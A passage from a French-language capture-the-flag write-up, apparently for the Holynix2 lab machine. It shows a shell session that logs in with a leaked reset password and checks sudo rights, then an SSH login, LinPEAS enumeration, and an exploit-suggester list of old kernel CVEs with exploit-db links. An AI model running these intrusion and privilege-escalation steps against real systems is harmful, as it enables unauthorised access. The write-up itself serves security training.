 ```bash
Your new password is your first and last name, all lower case, followed by 2ba9<br /><br />
You should change it when you log in.<br /><br />


--0016364edc1c5c38940496b56067--
www-data@holynix2:/home$ grep mckinley /etc/passwd
amckinley:x:1004:100:Agustin Mckinley:/home/amckinley:/bin/bash
www-data@holynix2:/home$ su amckinley
Password: 
amckinley@holynix2:/home$ id
uid=1004(amckinley) gid=100(users) groups=100(users)
amckinley@holynix2:/home$ sudo -l
User amckinley may run the following commands on this host:
    (root) NOPASSWD: /bin/false
```

Sûr que l'on ne va pas aller loin en exécutant `/bin/false`...

On peut utiliser l'identifiant pour un accès direct à SSH. Comme c'est un vieux système il faut rajouter une option à SSH :

```bash
ssh amckinley@192.168.1.88 -oHostKeyAlgorithms=+ssh-rsa
```

## Fulguropoings

J'ai uploadé et exécuté `LinPEAS` qui a trouvé quelques binaires setuid à l'ancienne comme `pt_chown` :

`-rwsr-xr-x 1 root root 9.4K 2010-10-21 20:33 /usr/lib/pt_chown  --->  GNU_glibc_2.1/2.1.1_-6(08-1999)`

Le script inclus aussi `exploit-suggester` qui trouve *quelques* vulnérabilités old-school :

```bash
  [1] american-sign-language
      CVE-2010-4347
      Source: http://www.securityfocus.com/bid/45408
  [2] can_bcm
      CVE-2010-2959
      Source: http://www.exploit-db.com/exploits/14814
  [3] dirty_cow
      CVE-2016-5195
      Source: http://www.exploit-db.com/exploits/40616
  [4] do_pages_move
      Alt: sieve       CVE-2010-0415
      Source: Spenders Enlightenment
  [5] exploit_x
      CVE-2018-14665
      Source: http://www.exploit-db.com/exploits/45697
  [6] ftrex
      CVE-2008-4210
      Source: http://www.exploit-db.com/exploits/6851
  [7] half_nelson1
      Alt: econet       CVE-2010-3848
      Source: http://www.exploit-db.com/exploits/17787
  [8] half_nelson2
      Alt: econet       CVE-2010-3850
      Source: http://www.exploit-db.com/exploits/17787
  [9] half_nelson3
      Alt: econet       CVE-2010-4073
      Source: http://www.exploit-db.com/exploits/17787
  [10] msr
      CVE-2013-0268
      Source: http://www.exploit-db.com/exploits/27297
```